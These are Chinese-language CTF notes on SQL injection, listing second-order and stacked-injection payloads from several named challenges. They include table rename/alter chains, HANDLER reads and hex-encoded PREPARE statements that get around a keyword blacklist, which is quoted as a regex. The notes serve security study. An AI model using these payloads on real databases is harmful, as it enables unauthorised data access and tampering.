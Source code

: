 ```
$category = mysql_fetch_array($result)['category']; //从结果取出的数据没有过滤直接拼接到sql语句
```
payload:

<div> insert  into comment set category ='<span style="color:red">', content=user(),/*</span>'content='<span style="color:red">*/#</span>',bo_id=''</div>

### sqlmap使用

### sql 堆叠注入

堆叠注入 [BUUCTF [SUCTF 2019]EasySQL](https://blog.csdn.net/qq_42158602/article/details/103930598), [WP2](https://www.cnblogs.com/chrysanthemum/p/11729891.html) `select $_GET['query'] || flag from flag`

    1;show databases#
    
    1';show databases;
    1';show tables;
    1';show columns from words;
    0';show columns from `1919810931114514`;#
    0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#
    1' or 1=1#
    flag{5a59e750-5531-4525-b39a-02edff259a48}

例2 [[GYCTF2020]Blacklist](https://www.cnblogs.com/gaonuoqi/p/12398554.html)
最后一步时使用 [Handler](https://dev.mysql.com/doc/refman/8.0/en/handler.html)

`preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`
```sql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
-- FlagHere是表名
```
例3  __[强网杯 2019]随便注__
最后一步 先构造一个sql语句，然后执行它，payload转化成16进制绕过waf
```sql
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
-- select * from `1919810931114514`
--- 方法2
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#
```



在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，

mysql 缺省不支持。需要调整mysql 的sql_mode模式：pipes_as_concat, 将||视为字符串的连接操作符而非或运算符

    1;set sql_mode=PIPES_AS_CONCAT;select 1
    非预期，没有过滤*直接注入*
    *,1
